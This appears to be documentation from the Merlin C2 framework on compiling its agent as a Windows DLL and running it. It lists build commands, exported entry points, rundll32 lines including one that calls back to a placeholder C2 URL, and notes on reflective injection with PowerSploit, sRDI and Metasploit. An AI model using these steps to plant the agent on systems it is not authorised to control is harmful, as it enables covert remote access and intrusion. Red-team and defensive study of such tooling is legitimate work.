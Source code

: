 #########
DLL Agent
#########

Merlin can be compiled into a DLL. The ``data/bin/dll/merlin.c`` file is a very simple C file with a single function. The ``VoidFunc`` and ``Run``
functions are exported to facilitate executing the DLL.

The ``VoidFunc`` function name was specifically chosen to facilitate use with PowerSploit's
`Invoke-ReflectivePEInjection.ps1 <https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-ReflectivePEInjection.ps1>`_.
Using ``VoidFunc`` requires no modification to run Merlin's DLL with Invoke-ReflectivePEInjection.

If the DLL is compiled on Windows, the `TDM-GCC <http://tdm-gcc.tdragon.net/download>`_ 64bit compiler has proven to work well during testing.

If the DLL is compiled on Linux, ensure ``MinGW-w64`` is installed.

Creating the DLL
----------------

The DLL can be created using the Make file with ``make agent-dll``

Alternatively, it can be compiled without Make by following these steps:

* Create the required C archive file:
    ``cd data/bin/dll;go build -buildmode=c-archive ../../../cmd/merlinagentdll/main.go``

* Compile the DLL
    ``gcc -shared -pthread -o merlin.dll merlin.c main.a -lwinmm -lntdll -lws2_32``

You will now have DLL file that you can use with whatever method of execution you would like.

DLL Entry Points
----------------

This table catalogs the exported functions for ``merlin.dll`` that can be used as an entry point when executing the DLL.

.. csv-table:: Exported DLL Functions
   :header: "Exported Function", "Status", "Notes"
   :widths: auto

    Run, Working, Main function to execute Merlin agent
    DllInstall, Partial, Used with regsvr32.exe /i . Handling for ``/i`` not implemented
    DllRegisterServer, Working, Used with regsvr32.exe
    DllUnregisterServer, Working, Used with regsvr32.exe /u
    ReflectiveLoader, Removed, Used with Metasploit's windows/manage/reflective_dll_inject module
    Magic, Working, Exported function in ``merlin.c``; used with sRDI or any other method
    Merlin, Working, Exported function in ``main.go``
    VoidFunc, Working, Used with PowerSploit's Invoke-ReflectivePEInjection.ps1

Execution with rundll32.exe
----------------------------

The DLL can be executed on a Windows host using the rundll32.exe program. Examples of using ``rundll32`` are:

* ``rundll32 merlin.dll,Run``
* ``rundll32 merlin.dll,Merlin``
* ``rundll32 merlin.dll,Magic``

A different Merlin server *can* be provided when executing the DLL by supplying the target URL as an argument. An example is:

``rundll32 merlin.dll,Run https://yourdomian.com:443/``

**NOTE:** Passing a custom URL only works when using cmd.exe and fails when using powershell.exe

Invoke-Merlin
-------------

The compiled DLL can be inserted into the ``Invoke-Merlin.ps1`` script.
Check the [README](../powershell/README.MD) in the `powershell` directory for
additional details.

Limitations
-----------

It is important to note that the DLL is currently in the
Proof-of-Concept stage. Because of this, there is no way to provide a
different Merlin server URL when calling ``Invoke-Merlin``.

``Invoke-Merlin`` will only call back to the Merlin server at
127.0.0.1. because that is the hard coded value. Future work will
facilitate specifying the value at compile time or when executing the
script. Work is in progress to overcome this issue.

One option to overcome this is to hard-code in the target Merlin server
address into the ``url`` variable of the ``cmd/merlinagent/main.go`` prior
to creating the C archive file.